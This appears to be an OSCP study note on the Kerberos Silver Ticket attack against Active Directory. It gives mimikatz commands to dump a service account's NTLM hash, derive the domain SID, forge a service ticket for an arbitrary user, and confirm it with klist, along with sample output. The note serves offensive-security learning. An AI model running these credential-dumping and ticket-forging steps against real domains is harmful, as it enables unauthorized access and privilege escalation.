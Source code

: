 ```yaml
---
aliases:
  - Active Directory Password Attacks - Silver Ticket
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - active_directory
  - ad
  - adds
  - password_attack
  - silver_ticket
author: Mehdi N Tehrani
creat_date: 2024-01-07
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# Overview
In Kerberos authentication, when a *service ticket* is provided to a *service provider*, the application on the server executing in the context of the service account checks the **user's permissions from the group memberships included in the service ticket**. But, the user and group permissions in the service ticket **are not verified by the application in a majority of environments**.

With the service account password or its associated NTLM hash at hand, we can forge our own service ticket to access the target resource with any permissions we desire.

## Mitigation
_Privileged Account Certificate_ [PAC](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/166d8064-c863-41e1-9c23-edaaa5f36962) [validation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-apds/1d1f2b0c-8e8a-4d2a-8665-508d04976f84) is an **optional** verification process between the *SPN application* and the *domain controller*. If this is enabled, the user authenticating to the service and its privileges are validated by the domain controller. Fortunately for this attack technique, service applications rarely perform PAC validation.

# Attack
## Requirements
1. SPN password or NTLM hash
	- if the service account which has an associated SPN has a session on a machine, from which we can obtain NTLM hash
2. Target SPN
3. Domain SID

## Process
### mimikatz
#mimikatz #sekurlsa_logonpassword #kerberos_golden
#### 1. Obtain required details
```mimikatz
privilege::debug
sekurlsa::logonpasswords
```
Here we can find the NTLM hash of the service account
```

Authentication Id : 0 ; 1147751 (00000000:00118367)
Session           : Service from 0
User Name         : iis_service
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/14/2022 4:52:14 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1109
        msv :
         [00000003] Primary
         * Username : iis_service
         * Domain   : CORP
         * NTLM     : 4d28cf5252d39971419580a51484ca09      <====
         * SHA1     : ad321732afe417ebbd24d5c098f986c07872f312
         * DPAPI    : 1210259a27882fac52cf7c679ecf4443
```
- Also from the service account SID we can obtain the domain SID 
	- if the user we want to forge silver ticket for and the SPN account are on the same domain
	- otherwise we can use `whoami /user`

In this example domain SID is:
```
S-1-5-21-1987370270-658905905-1781884369
```
which is the account SID, removing the last part

#### Forge silver ticket
```mimikatz
kerberos::golden /sid:<domain-sid> /domain:<domain> /ptt /target:<service-fqdn> /service:http /rc4:<spn_ntlm_hash> /user:<any_domain_user>
```
Example:
```mimikatz
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```

Output:
```
User      : jeffadmin
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 4d28cf5252d39971419580a51484ca09 - rc4_hmac_nt
Service   : http
Target    : web04.corp.com
Lifetime  : 9/14/2022 4:37:32 AM ; 9/11/2032 4:37:32 AM ; 9/11/2032 4:37:32 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jeffadmin @ corp.com' successfully submitted for current session
```


This means we should have the ticket ready to use in memory. We can confirm this with [klist](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/klist) which displays a list of currently cached Kerberos tickets.
```cmd
> klist

Current LogonId is 0:0xa04cc

Cached Tickets: (1)

#0>     Client: jeffadmin @ corp.com
        Server: http/web04.corp.com @ corp.com
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 9/14/2022 4:37:32 (local)
        End Time:   9/11/2032 4:37:32 (local)
        Renew Time: 9/11/2032 4:37:32 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```


